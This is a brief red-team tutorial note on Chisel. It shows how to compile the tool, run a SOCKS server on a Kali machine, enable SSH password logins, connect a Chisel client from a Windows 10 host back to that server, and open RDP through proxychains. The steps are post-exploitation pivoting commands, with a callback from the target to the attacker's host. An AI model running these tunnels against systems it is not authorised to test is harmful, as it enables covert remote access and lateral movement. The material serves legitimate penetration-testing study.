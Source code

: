 ### Chisel - Reverse RDP Proxying

In some cases we may need to rely on a standalone application when using products like PowerShell Empire or Covenant.

Chisel is an open-source tunneling software written in Golang. It works by setting up a TCP tunnel an performing data transfers over HTTP, while securing it with SSH.

Chisel contains both client and sever components and creates a SOCKS-compliant proxy.


1. Compiling Linux version of chisel

```bash
sudo apt install golang

sudo git clone https://github.com/jpillora/chisel.git

cd chisel/

go build
```

2. Compiling Windows version of chisel.

```bash
env GOOS=windows GOARCH=amd64 go build -o chisel.exe -ldflags "-s -w"
```

3. Set up the reverse tunnel with chisel

```bash
./chisel server -p 8080 --socks5
```bash

4. Configure SOCKS proxy server with the Kali SSH Server

```bash
sudo sed -i 's/#PasswordAuthentication yes /PasswordAuthentication yes/g' /etc/ssh/sshd_config

sudo systemctl start ssh.service

ssh -N -D 0.0.0.0:1080 localhost
```

5. Set up the Chisel client on Windows 10

IP/PORT = Server instance of chisel 

```bash
chisel.exe client 192.168.x.x:8080 socks
```

6. Once the tunnel created, open RDP session to the Windows 10 client wiht proxychains

```bash
sudo proxychains rdesktop 192.168.x.x
```